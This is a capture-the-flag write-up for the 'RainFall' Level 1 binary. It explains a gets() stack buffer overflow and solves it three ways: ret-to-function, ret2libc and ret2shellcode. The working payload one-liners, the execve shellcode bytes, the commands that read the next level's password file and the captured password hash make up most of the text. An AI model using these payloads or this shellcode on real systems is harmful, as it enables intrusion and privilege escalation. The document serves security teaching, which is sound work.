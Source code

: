 # Level 1

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>

void run(void)
{
    fwrite("Good... Wait what?\n", 1, 19, stdout);
    system("/bin/sh");
}

int main(void)
{
    char buffer[64];
    gets(buffer);
}
```

Let's focus on the `main` function. It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read. This will allow us to overflow the buffer and overwrite the return address of the `main` function.

Let's analyze the stack layout of our program:
```bash
(gdb) b *main+21 # Breaking before leave
Breakpoint 1 at 0x8048495

(gdb) r # Run the program
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048495 in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff6e0       0xbffff6e0
ebp            0xbffff738       0xbffff738
[...]
```
> You will notice that we break before the `leave` instruction, this is because the `leave` instruction is equivalent to `mov %ebp, %esp` followed by `pop %ebp`. Furthermore, the stack will be at the correct size at this point, which is not always the case before the `leave` instruction. Essentially I will always try to break before the `leave` instruction of the function I am trying to overflow, it may not always be the `main` function.

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 88 bytes:
```
0xbffff738 - 0xbffff6e0 = 58 (88 in decimal)
```	

Furthermore, we can see that our buffer is located at `0x10(%esp),%eax`. Since there is 88 bytes for the stack, our buffer will therefore require 72 bytes (88 - 16) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 76 bytes (72 + 4).
> If you're struggling, you can just use a [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), to find the offset of the return address. However, it is recommended to understand the stack layout and how to calculate the offset yourself.

Anything written beyond those 76 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

There are different ways to solve this challenge, we'll see three of them. First the intended way with a ret to the run function, then the ret2libc way and finally the ret2shellcode way.
> When we refer to padding, we mean the bytes we need to write before reaching the return address.

### Ret2run
So, we need to find the address of the `run` function, which spawns a shell, to jump to it:
```
(gdb) info function run
All functions matching regular expression "run":

Non-debugging symbols:
0x08048444  run
```

Let's craft our payload:
```bash
padding + address of run

"\x90"*76 + "\x08\x04\x84\x44"
```

Let's run it:
```bash
level1@RainFall:~$ (python -c 'print("0"*76 + "\x08\x04\x84\x44"[::-1])' && echo 'cat /home/user/level2/.pass') | ./level1
Good... Wait what?
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Perfect, let's move to the other solution.

### Ret2libc
Obviously, for this level, a ret2libc isn't necessary as we can just jump to the `run` function. However, it's a good exercise to understand how it works.

#### Explanation
Ret2Libc (Return-to-Libc) is an exploit technique that redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"
```
> The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.

#### Exploit
We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0x08048360  system
0x08048360  system@plt
[...]

# Exit
(gdb) info function exit
0xb7e5ebe0  exit
[...]

# /bin/sh
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*76 + "\x08\x04\x83\x60" + "\xb7\xe5\xeb\xe0" + "\xb7\xf8\xcc\x58"
```

Let's run it:
```bash
level1@RainFall:~$ (python -c 'print("\x90"*76 + "\x08\x04\x83\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])' && echo 'cat /home/user/level2/.pass') | ./level1
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Perfect, let's move to the other solution.

### Ret2shellcode
Yet again, for this level, a ret2shellcode isn't necessary as we can just jump to the `run` function. However, it's a good exercise to understand how it works.

#### Explanation
We opt for a shellcode designed to spawn a shell. This shellcode, taken from the [Exploit Database](https://www.exploit-db.com/exploits/41757), is compact and effective for our purpose:

`\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

Our goal is to write this shellcode in memory or in an environment variable and jump to it, it will then be executed, which will spawn a shell. Executing our shellcode is basically the equivalent of running `system("/bin/sh")`.

#### Exploit
We can either feed our shellcode to the program, or we can put the shellcode in an environment variable. For convenience, we'll use the environment variable:
```bash
bonus0@RainFall:~$ export EXPLOIT=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

We'll write and run a C program to find the address of the environment variable:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```

```bash
bonus0@RainFall:/tmp$ ./a.out
0xbffff848
```
> That address will be different for you, you'll have to change it in the payload.

Alright, let's craft our payload:
```
padding + address of shellcode

"\x90"*76 + "\xbf\xff\xf8\x48"
```

Let's run it:
```bash
level1@RainFall:~$ (python -c 'print("\x90"*76 + "\xbf\xff\xf8\x48"[::-1])' && echo 'cat /home/user/level2/.pass') | ./level1
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We are now level2! Let's move on to the next level.